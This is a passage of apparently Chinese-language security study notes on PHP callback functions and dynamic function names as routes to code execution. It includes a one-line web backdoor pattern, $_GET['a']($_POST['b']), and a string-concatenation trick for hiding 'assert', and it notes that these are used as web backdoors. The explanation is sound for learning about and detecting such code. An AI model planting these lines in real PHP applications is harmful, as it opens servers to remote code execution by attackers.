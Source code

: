 * call_user_func()

  ```php
  mixed call_user_func(callable $callback[, mixed $parameter[, mixed $..]])
  ```

  第一个参数callback时 被调用的回调函数，其余参数是回调函数的参数。

* array_map

  用法：

  ```php
  array array_map(callable $callback, array $array1[, array $...])
  ```

  array_map为数组的每个元素应用回调函数。callback函数形参的数量要和传给array_map()数组数量一致。

* call_user_func_array

  ```php
  mixed call_user_func_array ( callable $callback , array $param_arr )
  ```

  第一个参数是回调函数，第二个参数是回调函数的参数数组

* create_function

  create_function用于创建一个匿名函数，它内部实现用到了eval。

  用法：

  ```php
  create_function ( string $args , string $code ) : string
  ```

  第一个参数args是后面定义函数的参数，第二个参数$code是函数代码

#### PHP动态函数

因为PHP特性的原因，PHP的函数名可以由字符串来进行拼接

例如：

```php
<?php
    $a = 'a'.'s'.'s'.'e'.'r'.'t';
	$a(phpinfo());
?>
```

或者：

```php
$_GET['a']($_POST['b']);
```

利用这样的写法可以进行各种变形，通常被当作web后门使用



#### Curly Syntax

PHP中的Curly Syntax也能导致代码执行，它将执行花括号间的代码，并且将结果替换回去。

